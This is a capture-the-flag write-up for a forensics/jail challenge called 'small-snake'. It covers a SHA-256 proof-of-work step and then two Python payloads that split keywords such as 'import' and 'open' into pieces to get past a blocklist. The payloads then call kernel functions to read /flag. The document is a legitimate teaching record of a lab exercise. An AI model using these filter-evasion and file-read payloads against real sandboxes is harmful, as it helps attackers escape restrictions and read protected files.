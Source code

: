 small-snake
=====================================================

## Info
* Category: forensics
* Point: 500 --> 477
* Description: 
    * The flag is in /flag
```
nc small-snake.chal.hackthe.vote 1337
```

## Solution
```
└─$ nc small-snake.chal.hackthe.vote 1337
Give me input where sha256(bhBI0pRbXXhcIyyv + input).hexdigest().endswith('0'*6)
Answer (limit 1024 bytes)>
```
Using sha265 decrypt technique to solve the key to get into the challenge   
Using [small_snake_sha256.py](small_snake_sha256.py) or [solution.py](solution.py) to solve the sha256 problem  
**Noted: The [solution.py](solution.py) is a Python script that automatically run the `nc small-snake.chal.hackthe.vote 1337` and generate input key for sha256, also automatically solve the challenge and give the flag**
```
└─$ nc small-snake.chal.hackthe.vote 1337
Give me input where sha256(DPf0Vayhe7uuIGLM + input).hexdigest().endswith('0'*6)
Answer (limit 1024 bytes)> 4738681
initializing challenge...
[advanced console]
  add_fake_votes(state, candidate, N)  ; it's really this simple
  create_distraction(magnitude)        ; just in case
  destroy_all_records()                ; ...
>
```
In here, I have test for several command and note down several illegal commands or names such as
```
globals
import
path
open
...
```
Seem like the bash terminal here is currently running in Python --> The idea to solve this challenge is to make change to the kernel using shell escaping  
I have two solution command here
```
#1
exec("impor" "t kernel_ffi as k; buf = k.kmalloc(1024); memset(buf, 0, 1024); f = filp_ope" + "n('flag', 0, 0); kernel_read(f, buf, 128, 0); print(k.str(buf))")
```
```
#2
var4 = ‘i’+’m’+’p’+’o’+’r’+’t’+ ‘ kernel_ffi’; exec(var4); func = “filp_o”+”pen”; ffi = kernel_ffi.symbol(func); file_path = “/flag”; flags = 0; mode = 0; var2 = “file = filp_o”+”pen(file_path, flags, mode)”; exec(var2); buffer = kernel_ffi.kmalloc(4096); kernel_read = kernel_ffi.symbol(“kernel_read”); pos = 0; bytes_read = kernel_read(file, buffer, 4096, pos); data = kernel_ffi.str(buffer); print(data);
```
Both of them work well when input into the bash terminal
```
> exec("impor" "t kernel_ffi as k; buf = k.kmalloc(1024); memset(buf, 0, 1024); f = filp_ope" + "n('flag', 0, 0); kernel_read(f, buf, 128, 0); print(k.str(buf))")
 flag{its_like_rust_in_the_kernel_but_better}
```
--> Flag: ` flag{its_like_rust_in_the_kernel_but_better}`